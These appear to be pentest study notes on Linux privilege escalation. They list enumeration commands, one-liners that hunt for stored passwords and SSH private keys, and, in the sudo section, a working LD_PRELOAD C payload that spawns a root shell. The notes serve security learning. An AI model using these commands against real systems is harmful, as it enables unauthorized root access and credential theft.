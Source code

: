 # 1. System Enumeration 

## Command 

1. hostname 
2. uname -a 
3. cat /etc/issue
4. cat /proc/version
5. lscpu 
6. ps aux | grep root 
7. ps aux | grep username 
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
# 2. User Enumeration
 
## Command 

1. whoami 
2. id 
3. sudo -l 
4. cat /etc/passwd
5. cat /etc/passwd | cut -d : -f 1 
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
# 3. Network Enumeration

## Command 

1. ifconfig 
2. ip a 
3. ip route || route 
4. arp -a 
5. ip neigh 
4. netstat -ano 
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
# 4. Exploring Automated Tools

#tools name 

1. linpeas
2. linEnum
3. linux-exploit-suggester
4. linixprivchecker.py

# 5. Kernel Exploits

## what is a kernel ?

   * A computer program that control everthing in the system 
   * Facikitates interactions between hardware & software components 
   * A translator
    
## Resource 

* github - https://github.com/lucyoa/kernel-exploits


# 5.1 Escalation via Kernel Exploit
    
# manual 

1. uname -a 
2. copy karnel version & search exploit in Google 

# Automation 

1. linux-exploit-suggester
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
# 6. Escalation Path - Passwords & File Permissions

# 6.1 Escalation via Stored Passwords

# Command :

* history 
* cat bash_history 

# Automation 

* grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
* find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;



# 6.2 Escalation via Weak File Permissions

* ls -la /etc/passwd
* ls -la /etc/shadow
# not vuln

┌(^.^)-(zapstiko@parrot)-(~)
└─»(★)ls -la /etc/passwd
-rw-r--r-- 1 root root 2.8K Dec 10 00:12 /etc/passwd

┌(^.^)-(zapstiko@parrot)-(~)
└─»(★)ls -la /etc/shadow
-rw-r----- 1 root shadow 1.5K Dec  9 20:45 /etc/shadow

# vuln 
┌(^.^)-(zapstiko@parrot)-(~)
└─»(★)ls -la /etc/passwd
-rw-r--r-- 1 root root 2.8K Dec 10 00:12 /etc/passwd

┌(^.^)-(zapstiko@parrot)-(~)
└─»(★)ls -la /etc/shadow
# -rw-rw-r-- 1 root shadow 1.5K Dec  9 20:45 /etc/shadow


# 6.3 Escalation via SSH Keys

# Find Command 

* find / -name authorized_keys 2> /dev/null
* find / -name id_rsa 2> /dev/null
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 7. Escalation Path - Sudo

# checking command 

* sudo -l 
# LD_PRELOAD

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

* gcc -fPIC -shared -o shell.so shell.c -nostartfiles
* sudo LD_PRELOAD=/home/user/ldpreload/shell.so find

** GTFObin
























